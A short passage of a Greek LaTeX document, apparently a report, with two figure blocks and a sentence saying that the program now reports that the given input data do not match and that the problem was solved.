			
\includegraphics[width=1\textwidth]{image/4.4.PNG}		
\end{center}
\noindent
Οπός παρατηρούμε πλέον μας λέει ότι τα δεδομένα εισόδου που δώσαμε
δεν ταιριάζουν. Το πρόβλημα λύθηκε επιτυχώς!
\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.5.PNG}		
\end{center}
